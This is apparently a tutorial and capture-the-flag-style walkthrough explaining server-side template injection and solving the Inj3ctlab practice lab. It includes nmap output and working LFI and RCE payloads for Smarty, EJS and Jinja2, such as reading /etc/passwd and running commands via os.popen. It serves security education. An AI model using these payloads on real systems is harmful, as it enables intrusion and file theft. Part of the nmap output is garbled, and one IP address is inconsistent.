

Article describing the SSTI vulnerability and providing a step-by-step guide on how to solve the Inj3ctlab laboratory from Bug Bounty Labs to practice SSTI in multiple template engines.

## Table of Contents

## What is SSTI?

**Server-Side Template Injection (SSTI)** is a technique that allows an attacker to inject and execute code on the server through a template engine. This happens when the application mixes user input with server-side templates without proper control or sanitization. Below, we describe how it occurs and what its implications are:

1. **Vulnerability Context**  
   - Many development environments use template engines (e.g., Jinja2 in Python, Twig in PHP, Freemarker in Java, or EJS in Node.js) to generate HTML content on the server.  
   - These engines allow the use of expressions or basic logic (calculations, loops, etc.) to process data and generate the final response.

2. **Causes of Injection**  
   - SSTI occurs when a web application directly inserts a user-provided string into the template.  
   - If the template engine evaluates that string as code, arbitrary logic can be executed on the server.  
   - A minimal example in Jinja2 would be passing `{{ 7*7 }}` into the template and observing if the returned result is `49`. This demonstrates that the server is actively processing expressions.

3. **Exploitation Phases**  
   1. **Detection**: The attacker introduces a specific syntax according to the template engine to check if the string is evaluated.  
   2. **Escalation**: If the injection works (e.g., it returns a numeric result or exposes internal objects), the attacker attempts to discover what functionalities are accessible (variables, functions, modules) within the execution environment.  
   3. **Code Execution**: In template engines with a broad scope, it is possible to execute operating system commands or access internal resources, leading to **Remote Code Execution (RCE)**.

4. **Security Impact**  
   - Complete compromise of the application and server if the engine allows arbitrary code execution.  
   - Access to sensitive data, such as configuration information, credentials, or environment variables.  
   - Potential pivoting to other connected systems if the vulnerable server has elevated privileges or access to internal networks.

5. **Mitigation Recommendations**  
   - **Escape and validate input**: Ensure that no user string is processed as part of the template syntax.  
   - **Configure the template engine**: Disable or restrict functionalities that allow arbitrary code evaluation or access to internal objects.  
   - **Server-side logic**: Separate the logical parts of the application from user-supplied content, avoiding the use of eval or similar constructs.  
   - **Updates and patches**: Keep template engines and the rest of the infrastructure up to date with the latest security fixes.  
   - **Security reviews**: Conduct specific tests (fuzzing, pentesting) to detect if the application is vulnerable to SSTI.  

### SSTI References

[Server-Side Template Injection: RCE for the Modern Web App](https://www.blackhat.com/docs/us-15/materials/us-15-Kettle-Server-Side-Template-Injection-RCE-For-The-Modern-Web-App-wp.pdf): This research delves into how SSTI vulnerabilities can lead to remote code execution in modern web applications, analyzing different template engines and providing detailed examples.
   
[A Pentester's Guide to Server-Side Template Injection (SSTI)](https://www.cobalt.io/blog/a-pentesters-guide-to-server-side-template-injection-ssti): This comprehensive guide for penetration testing professionals explores SSTI detection and exploitation techniques, as well as best practices for mitigation.

### Template Engine References

Below is a list of template engines organized by technology, along with links to their official documentation:

**JavaScript:**

- **Handlebars.js:** A simple yet powerful template engine that allows the creation of semantic templates. [Official site](https://handlebarsjs.com/)
- **Mustache.js:** A logic-less template engine that works across multiple platforms. [Official site](https://mustache.github.io/)
- **EJS (Embedded JavaScript):** Allows generating HTML using simple JavaScript. [Official site](https://ejs.co/)
  
**Python:**

- **Jinja2:** A modern template engine for Python, frequently used with the Flask framework. [Official site](https://jinja.palletsprojects.com/)
- **Django Templates:** The built-in template system of the Django framework. [Official documentation](https://docs.djangoproject.com/en/stable/topics/templates/)
  
**Ruby:**

- **ERB (Embedded Ruby):** The default template system in Ruby on Rails. [Official documentation](https://ruby-doc.org/stdlib/libdoc/erb/rdoc/ERB.html)
- **Haml:** A template engine designed to simplify HTML syntax. [Official site](http://haml.info/)
  
**PHP:**

- **Twig:** A flexible, secure, and fast template engine for PHP. [Official site](https://twig.symfony.com/)
- **Blade:** A simple yet powerful template engine included with Laravel. [Official documentation](https://laravel.com/docs/stable/blade)
  
**Java:**

- **Thymeleaf:** A template engine for Java designed for web and standalone environments. [Official site](https://www.thymeleaf.org/)
- **FreeMarker:** A Java-based template engine for generating text output like HTML. [Official site](https://freemarker.apache.org/)
  
**C#:**

- **Razor:** The template engine used in ASP.NET for generating dynamic web content. [Official documentation](https://learn.microsoft.com/en-us/aspnet/core/mvc/views/razor)
  
**Go:**

- **Go Templates:** The native Go template package for generating dynamic content. [Official documentation](https://pkg.go.dev/text/template)

I hope this list is useful to you.

## Inj3ctlab Laboratory from Bug Bounty Labs

**Inj3ctlab** is a laboratory designed to **practice and refine** Server-Side Template Injection techniques in different environments. Developed for **Bug Bounty Labs**, it offers various services on different ports to simulate real-world scenarios. Through specific challenges, users can:

- Identify SSTI vectors in 3 technologies (PHP, NodeJs, and Python).  
- Learn to escalate the injection from simple arithmetic tests to RCE (Remote Code Execution).  

The laboratory provides a practical and controlled approach, ideal for experimenting with different configurations and ensuring that participants gain realistic experience in detecting SSTI vulnerabilities.

We set up the lab following the instructions from [Bug Bounty Labs](https://bugbountylabs.com).



We obtain the lab's IP address: `127.17.0.2`.

### Enumeration

```bash
$ nmap -p- 172.17.0.2 -oN all_ports                      
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-02 21:22 CET
Nmap scan report for 172.17.0.2
Host is up (0.0000030s latency).
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE
80/tcp   open  http
3000/tcp open  ppp
5000/tcp open  upnp
MAC Address: 02:42:AC:11:00:02 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 0.79 seconds

```


```bash
nmap -p80,3000,5000 -sVC 172.17.0.2 -oN specific_ports
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-02 21:22 CET
Nmap scan report for 172.17.0.2
Host is up (0.000029s latency).

PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.62 ((Debian))
|_http-server-header: Apache/2.4.62 (Debian)
|_http-title: PHP App
3000/tcp open  http    Node.js (Express middleware)
|_http-title: Site doesn't have a title (text/html; charset=utf-8).
5000/tcp open  upnp?
| fingerprint-strings: 
|   GetRequest: 
|     HTTP/1.1 200 OK
|     Server: Werkzeug/2.2.2 Python/3.9.2
|     Date: Sun, 02 Feb 2025 20:22:38 GMT
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 60524
|     Connection: close
|     <h1>Python App</h1>
|     `        | Hello, 49! |
| Python      | 5000 | `{{7*7}}`         | Hello, 49! |

### Identifying the Template Engine Behind the Scenes

Each backend technology (PHP, Node.js, Python, Java, etc.) can use different template engines (Smarty, EJS, etc.). Some engines are more commonly associated with specific technologies, but there are unusual setups that allow engines designed for PHP to run in Node.js (e.g., https://github.com/ecomfe/smarty4js), among others.

Besides the techniques explained in the previous references, we can also attempt to better understand how each template engine works and use specific variables that are unique to each engine.

Example:

| Technology  | Port  | Payload Sent               | Expected Result                                    |
|:-----------:|------|-------------------------------|-------------------------------------------------------|
| PHP         |  80  | `{$smarty.version}`           | Version of the **Smarty** template engine             |
| Node.js     | 3000 | `<%=JSON.stringify(locals)%>` | All variables included in the **EJS** template        |
| Python      | 5000 | `{{config}}`                  | **Flask** configuration                              |

These are just a few examples. The key is to familiarize yourself with each template engine to properly identify them.

### Achieving LFI (Local File Inclusion) and RCE (Remote Code Execution)

Now that we know which technologies are running on the backend and the payloads that allow us to execute PHP, Node.js, and Python through template injection, we can leverage the built-in functions, libraries, and modules of these technologies to achieve LFI and RCE.

#### LFI Examples Table

| Technology  | Port  | Payload Sent                                                                                                  | Result                        |
|:-----------:|------|----------------------------------------------------------------------------------------------------------------|--------------------------------|
| PHP         |  80  | `{file_get_contents("/etc/passwd")}`                                                                           | Passwd file                   |
| Node.js     | 3000 | `<%- include("/app/node-app/app.js")%>`                                                                        | Application source code        |
| Python      | 5000 | `{{'X'.__class__.__base__.__subclasses__()[101].__subclasses__()[0].__subclasses__()[0]('/etc/passwd').read()}}` | Passwd file                   |

As seen in **PHP**, it was very easy. In **Node.js** with EJS, I was only able to retrieve files with system extensions, and in **Python**, I followed the instructions from **Ingo Kleiber** in his post [A Simple Flask (Jinja2) Server-Side Template Injection (SSTI) Example](https://kleiber.me/blog/2021/10/31/python-flask-jinja2-ssti-example/).

#### RCE Examples Table

| Technology  | Port  | Payload Sent                                                                            |
|:-----------:|------|--------------------------------------------------------------------------------------------|
| PHP         |  80  | `{exec("whoami")}`                                                                         |
| Node.js     | 3000 | ?                                                                                          |
| Python      | 5000 | `{{request.application.__globals__.__builtins__.__import__('os').popen('whoami').read()}}` |

With PHP (Smarty) and Python (Flask), achieving RCE was straightforward, but with Node.js and EJS, I was unable to execute it.

From this point, a reverse shell or any other command could be executed on the server.

I hope this lab and article help someone learn more about SSTI and template engine technologies.
